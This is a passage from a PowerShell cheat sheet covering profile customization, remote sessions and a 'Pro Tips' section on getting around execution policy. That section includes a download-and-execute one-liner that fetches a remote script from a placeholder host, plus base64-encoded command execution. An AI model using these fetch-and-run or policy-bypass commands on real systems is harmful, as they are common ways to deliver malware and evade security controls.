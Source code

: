 ### PowerShell Customization
```powershell
# Check PowerShell profile location
$PROFILE

# Create custom function
function Get-SystemInfo {
    Get-ComputerInfo | Select-Object WindowsProductName, TotalPhysicalMemory, CsProcessors
}

# Create alias
Set-Alias -Name "ll" -Value "Get-ChildItem"

# Import module
Import-Module ActiveDirectory

# Get command syntax
Get-Command Get-Process -Syntax
```

---

## 💡 Pro Tips & Advanced Techniques

### 1. Bypass Execution Policy
```powershell
# Method 1: Bypass flag
powershell -ep bypass -c "Get-Process"

# Method 2: Unrestricted for current user
Set-ExecutionPolicy Unrestricted -Scope CurrentUser

# Method 3: Download and execute
powershell -c "iex (iwr 'http://example.com/script.ps1')"

# Method 4: Encoded command
$command = "Get-Process"
$bytes = [Text.Encoding]::Unicode.GetBytes($command)
$encoded = [Convert]::ToBase64String($bytes)
powershell -enc $encoded
```

### 2. Remote Operations
```powershell
# Run commands remotely
Invoke-Command -ComputerName DC01 -ScriptBlock {Get-Process}

# Create persistent session
$session = New-PSSession -ComputerName Server01
Invoke-Command -Session $session -ScriptBlock {Get-Service}

# Copy files to remote system
Copy-Item -Path .\file.txt -Destination C:\temp\ -ToSession $session

# Enable PowerShell remoting
Enable-PSRemoting -Force
```
